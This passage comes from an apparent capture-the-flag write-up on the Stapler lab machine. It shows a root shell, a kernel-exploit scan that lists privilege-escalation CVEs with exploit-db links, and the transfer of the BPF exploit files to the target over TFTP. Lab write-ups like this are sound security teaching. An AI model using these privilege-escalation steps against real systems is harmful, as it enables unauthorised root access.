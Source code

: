 ``` 
$ sudo su


id
uid=0(root) gid=0(root) groups=0(root)
```

Lastly, we can get root just by using an exploit. I ran my [linux_privcheck.py](https://github.com/chousensha/linux_privcheck) against the kernel version:

``` 
python linux_privcheck.py 
Kernel version is 4.4.0-21-generic
###########################################
POTENTIALLY VULNERABLE TO
Name: BPF Privilege Escalation
CVE: CVE-2016-4557
Source code: https://www.exploit-db.com/exploits/39772/
###########################################
###########################################
POTENTIALLY VULNERABLE TO
Name: Netfilter target_offset Out-of-Bounds Privilege Escalation
CVE: N/A
Source code: https://www.exploit-db.com/exploits/40049/
###########################################
###########################################
POTENTIALLY VULNERABLE TO
Name: AF_PACKET Race Condition Privilege Escalation
CVE: CVE-2016-8655
Source code: https://www.exploit-db.com/exploits/40871/
###########################################
###########################################
POTENTIALLY VULNERABLE TO
Name: DCCP Double-Free Privilege Escalation
CVE: CVE-2017-6074
Source code: https://www.exploit-db.com/exploits/41458/
###########################################
```

I used the first exploit, downloaded the files to my machine, and then uploaded them to the Stapler box by using the TFTP that I've identified previously:

``` 
tftp 192.168.217.141
tftp> put compile.sh
Sent 160 bytes in 0.1 seconds
tftp> put doubleput.c
Sent 4330 bytes in 0.0 seconds
tftp> put hello.c
Sent 2272 bytes in 0.1 seconds
tftp> put suidhelper.c
Sent 267 bytes in 0.0 seconds
```
